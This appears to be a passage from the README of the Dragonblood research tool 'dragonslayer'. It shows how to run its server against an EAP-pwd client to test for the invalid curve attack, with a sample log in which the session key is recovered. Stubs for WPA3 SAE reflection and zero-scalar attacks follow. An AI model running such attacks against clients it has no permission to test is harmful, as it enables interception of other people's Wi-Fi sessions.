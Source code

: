 ## Invalid curve attack against EAP-pwd

To test whether an EAP-pwd client is vulnerable to invalid curve attacks, start `dragonslayer-server.sh` using the `-a 1` parameter. Once the server is running, connect to it with the client you want to test. Example output is:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-server.sh -a 1
	Configuration file: hostapd.conf
	Using interface wlp2s0 with hwaddr 8a:f5:40:f9:5d:c0 and ssid "dragonblood"
	wlp2s0: interface state UNINITIALIZED->ENABLED
	wlp2s0: AP-ENABLED 
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: authenticated
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: associated (aid 1)
	wlp2s0: CTRL-EVENT-EAP-STARTED c4:e9:84:db:fb:7b
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	EAP-pwd: provisioned group 19
	[03:48:15] c4:e9:84:db:fb:7b: sending a scalar equal to zero
	[03:48:15] c4:e9:84:db:fb:7b: sending generator of small subgroup as the element
	[03:48:15] c4:e9:84:db:fb:7b: configured X-coordinate of subgroup generator as session key
	[03:48:15] c4:e9:84:db:fb:7b: Successfully recovered the session key. Client is vulnerable to invalid curve attack!
	wlp2s0: CTRL-EVENT-EAP-SUCCESS c4:e9:84:db:fb:7b
	wlp2s0: STA c4:e9:84:db:fb:7b WPA: pairwise key handshake completed (RSN)
	wlp2s0: AP-STA-CONNECTED c4:e9:84:db:fb:7b
	wlp2s0: STA c4:e9:84:db:fb:7b RADIUS: starting accounting session 35BB5B4BB3793544
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.1X: authenticated - EAP type: 0 (unknown)

The tool will display **Client is vulnerable to invalid curve attack!** if it is vulnerable. The **attack has a 33% chance of failing**. So if this message is not display, you must try executing the attack several times again (i.e. try connecting again using the client). You can only assume the client isn't vulnerable after trying to attack several times!

## Reflection attack against WPA3's SAE

**TODO: Small description**

## Zero-scalar attack against WPA3's SAE

**TODO: Small description**

# General Remarks

- The wireless interface doesn't have to be set to monitor mode. This is the case for all our attack tools.
- If things don't work, it can really help to unplug your Wi-Fi adapter, and plug it back it. Especially when using a virtual machine.

# TODOs

- **For all attack variants, check or force we're using the correct group.**
- **Force the correct group and `wpa_keymgnt` based on the selected attack**
- **In the badscalar (iwd) attack allow to set the scalar either to zero or to the order of the curve**


